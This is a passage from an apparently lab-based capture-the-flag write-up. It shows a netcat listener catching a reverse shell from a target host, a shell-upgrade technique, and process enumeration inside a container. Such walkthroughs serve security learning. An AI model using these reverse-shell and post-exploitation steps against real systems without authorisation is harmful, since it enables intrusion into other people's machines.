

    oxdf@hacky$ nc -lnvp 443
    Listening on 0.0.0.0 443
    Connection received on 10.10.11.184 55194
    / $ ^[[49;5R



`script` isn't installed, but I can use `python3` to get a PTY and then
do the standard [shell
upgrade](https://www.youtube.com/watch?v=DqE6DxqJg8Q):



    / $ ^[[49;5Rpython3 -c 'import pty;pty.spawn("/bin/bash")'
    python3 -c 'import pty;pty.spawn("/bin/bash")'
    Traceback (most recent call last):
      File "<string>", line 1, in <module>
      File "/usr/lib/python3.9/pty.py", line 158, in spawn
        os.execlp(argv[0], *argv)
      File "/usr/lib/python3.9/os.py", line 557, in execlp
        execvp(file, args)
      File "/usr/lib/python3.9/os.py", line 574, in execvp
        _execvpe(file, args)
      File "/usr/lib/python3.9/os.py", line 597, in _execvpe
        exec_func(file, *argrest)
    FileNotFoundError: [Errno 2] No such file or directory
    / $ ^[[49;5R^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo ; fg
    nc -lnvp 443
                reset
    / $



#### Processes

Containers are virtual spaces, but they are sharing process space with
the host. Looking at the processes, it's worth looking at what is
running:



    / $ ps auxww                                     
    PID   USER     TIME  COMMAND             
        1 root      0:14 {systemd} /sbin/init       
        2 root      0:00 [kthreadd]                  
        3 root      0:00 [rcu_gp]              
        4 root      0:00 [rcu_par_gp]        
        5 root      0:00 [netns]        
        7 root      0:00 [kworker/0:0H-ev]  
        9 root      0:07 [kworker/0:1H-kb]
    ...[snip]...
     1194 root      0:00 /usr/sbin/cron -f -P
     1195 1000      0:00 sleep 100000000
     1203 root     12:12 /usr/bin/containerd
     1220 root      0:00 /sbin/agetty -o -p -- \u --noclear tty1 linux
     1229 root      0:00 sshd: /usr/sbin/sshd -D [listener] 0 of 10-100 startups
     1240 root      0:00 nginx: master process /usr/sbin/nginx -g daemon on; master
     1241 xfs       0:25 nginx: worker process
     1242 xfs       1:31 nginx: worker process
     1255 root      2:26 /usr/bin/dockerd -H fd:// --containerd=/run/containerd/con
     1482 root      0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-po
     1506 root      0:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 49
     1520 root      0:00 /usr/bin/docker-proxy -proto tcp -host-ip 0.0.0.0 -host-po
     1526 root      0:00 /usr/bin/docker-proxy -proto tcp -host-ip :: -host-port 40
     1541 root      0:55 /usr/bin/containerd-shim-runc-v2 -namespace moby -id c0fe8
     1563 root      0:26 tail -f /logfile